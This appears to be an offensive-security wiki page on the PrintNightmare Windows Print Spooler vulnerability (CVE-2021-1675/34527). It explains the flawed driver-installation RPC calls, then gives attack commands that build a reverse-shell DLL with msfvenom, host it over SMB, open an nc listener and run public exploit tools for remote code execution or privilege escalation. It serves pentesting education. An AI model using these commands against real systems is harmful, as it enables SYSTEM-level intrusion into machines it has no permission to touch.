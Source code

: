 ```yaml
---
description: CVE-2021-1675 & CVE-2021-34527
---
```


# PrintNightmare

## Theory

### The print spooler

The Print Spooler is a Microsoft built-in service that manages printing jobs. It is enabled by default and runs within the `SYSTEM` context.

3 RPC protocols are registered by the spooler:

* MS-RPRN: Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server synchronously.
* MS-PAR: Microsoft’s Print System Asynchronous Remote Protocol. It has the same functionalities as MS-RPRN, but works asynchronously.
* MS-PAN: Microsoft’s Print System Asynchronous Notification Protocol. It is used to receive print status notifications from a print server and to send server-requested responses to those notifications back to the server.

### PrintNightmare

"PrintNightmare" refers to an RCE (Remote Command Execution) vulnerability. If the vulnerable machine is configured to reject remote connection, this vulnerability could still be exploited in an LPE (Local Privilege Escalation) context. 

In a detailed blogpost ([here](https://cyberwatch.fr/actualite/cve-2021-34527-comment-identifier-et-neutraliser-la-vulnerabilite-printnightmare/)), Cyberwatch describes that the vulnerability lies in the functions allowing remote driver installation by users, `RpcAddPrinterDriverEx` and `RpcAddPrinterDriver`:

1. The attacker stores the driver DLL file on a SMB share reachable from the server.
2. The client creates a [`DRIVER_INFO_2`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/39bbfc30-8768-4cd4-9930-434857e2c2a2) object containing the path to the attacker's DLL and passes it into the DRIVER_CONTAINER object.
3. The client calls [`RpcAddPrinterDriverEx`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/b96cc497-59e5-4510-ab04-5484993b259b) with the `DRIVER_CONTAINER` to load the attacker's DLL into the server's dynamic library and with multiple bit values within the `dwFileCopyFlags` in order to bypass the `SeLoadDriverPrivilege` privilege verification by the server.
4. The attacker's DLL is executed on the server within `SYSTEM` context. 

### Constraints

As [@StanHacked](https://twitter.com/StanHacked/) stated on Twitter, there are some constraints depending on the protocol used for the attack.

#### MS-RPRN conditional tree

![](<./assets/PrintNightmare_MS-RPRN.jpeg>)

<https://twitter.com/StanHacked/status/1410929974358515719>{.caption}


#### MS-PAR conditional tree

[](<./assets/PrintNightmare_MS-PAR.jpeg>)

<https://twitter.com/StanHacked/status/1412060814488608773>{.caption}


## Practice

::: tabs

=== UNIX-like

From Unix-like systems, the attack can be conducted as follows

1. Check if the target's RPC pipes are available: Impacket's [rpcdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py)
2. Generate a DLL payload: [msfvenom](https://github.com/rapid7/metasploit-framework/blob/master/msfvenom)
3. Host an SMB server from which the DLL can be fetched: Impacket's [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
4. Exploit PrintNightmare: CVE-2021-1675.py ([MS-RPRN abuse](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare), [MS-PAR abuse](https://github.com/cube0x0/CVE-2021-1675/blob/main/SharpPrintNightmare/CVE-2021-1675.py))
5. Profit from the DLL being executed by the target


```bash
# Check open pipes
rpcdump.py @192.168.1.16 | egrep 'MS-RPRN|MS-PAR'

# Create a DLL payload (reverse shell in this example)
msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -o /workspace/smb/remote.dll

# Host a SMB share 
smbserver.py -smb2support "WHATEVERNAME" /workspace/smb/

# Start the listener (for the reverse shell)
nc -lvnp $LOCAL_PORT

# Run the exploit
CVE-2021-1675.py $DOMAIN/$USER:$PASSWORD@$TARGET_IP '\\$LOCAL_IP\$SHARE\remote.dll'

```



=== Windows

From Windows systems, the attack can be conducted in an LPE or RCE context with the following PoC: [https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare/SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare/SharpPrintNightmare).

> [!CAUTION]
> _At the time of writing, October 7th 2022, the Windows abuse technique has not been tested by THR's authors._


```bash
#LPE
C:\SharpPrintNightmare.exe C:\addCube.dll

#RCE using existing context
SharpPrintNightmare.exe '\\$LOCAL_IP\smb\addCube.dll' '\\$TARGET_IP'

#RCE using runas /netonly
SharpPrintNightmare.exe '\\$LOCAL_IP\smb\addCube.dll' '\\$TARGET_IP' $DOMAIN $USER $PASSWORD
```


:::


## Resources

[https://cyberwatch.fr/actualite/cve-2021-34527-comment-identifier-et-neutraliser-la-vulnerabilite-printnightmare/](https://cyberwatch.fr/actualite/cve-2021-34527-comment-identifier-et-neutraliser-la-vulnerabilite-printnightmare/)

[https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)
